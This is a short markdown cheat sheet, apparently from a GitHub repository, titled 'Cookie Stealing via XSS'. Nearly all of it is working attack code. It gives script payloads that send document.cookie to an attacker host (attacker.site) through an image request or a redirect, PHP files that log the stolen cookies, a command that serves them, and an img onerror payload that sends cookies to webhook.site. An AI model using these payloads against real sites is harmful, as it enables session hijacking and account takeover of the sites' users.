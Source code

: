 # Cookie Stealing via XSS

## Ex (1): 
```js
// One Liner: <script>new Image().src="http://attacker.site/log.php?q="+document.cookie</script>
<script>
  var i = new Image();
  i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

## Attacker Controlled Site (1) (`log.php`):
```php
<?php
  $filename="/tmp/log.txt";
  $fp=fopen($filename, 'a');
  $cookie=$_GET['q'];

  fwrite($fp, $cookie);
  fclose($fp);
?>
```

-----

## Ex (2):
```js
<script>location.href='http://attacker.site/index.php?q='+document.cookie</script>
```


## Attacker Controlled Site (2) (`index.php`):
```php
<?php
  $cookie = isset($_GET['q']) ? $_GET['q']:"";
?>
```

```shell
$ php -S IP:8008
```

## Attacker Controlled HTTP Request (Online):
Using: https://webhook.site/

```html
<img src=x onerror="location.href='https://webhook.site/?c='+ document.cookie">
```

**By 0xRar**
